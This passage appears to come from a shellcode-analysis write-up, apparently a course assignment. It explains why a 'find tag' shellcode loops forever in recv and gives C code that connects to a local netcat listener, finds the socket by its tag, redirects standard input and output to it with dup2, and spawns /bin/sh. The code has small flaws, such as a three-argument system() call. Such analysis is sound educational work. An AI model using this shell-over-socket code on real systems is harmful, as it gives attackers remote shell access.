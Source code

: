 If you were to run the shellcode (or the program above) and pass it to `strace`, you would notice the function `recv` enters an endless loop, so it will never reach the function `dup2`.

To make it work, I wrote some C code that creates a socket and connects to a netcat listener, which sends the string `fjHh`:

```cpp
#include <sys/socket.h>
#include <netinet/ip.h>

void main(int argc, char *argv[])
{
    unsigned short int fd = 2560;
    char buffer[2560] = {0};

    // START block of code of code taken from assignment n.2

    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &client_address.sin_addr);
    client_address.sin_port = htons(4444);
    connect(client_socket_fd, (struct sockaddr *)&client_address, sizeof(client_address));

    // END block of code of code taken from assignment n.2

    printf("[+] Trying to find the correct file descriptor\n");
    while (1)
    {
        recv(fd, &buffer, 2560, MSG_DONTWAIT);
        if (buffer[0] == 102 && buffer[1] == 106 && buffer[2] == 72 && buffer[3] == 104)
        {
            printf("[+] Correct file descriptor: %d\n", fd);
            break;
        } else
        {
            fd++;
        }
    }

    printf("[+] Redirecting error, output, and input\n");
    for (int i = 2; i >= 0; i--)
    {
        dup2(fd, i);
    }

    printf("[+] Here's your shell:\n");
    system("/bin//sh", "/bin//sh\n", 0);
}
```
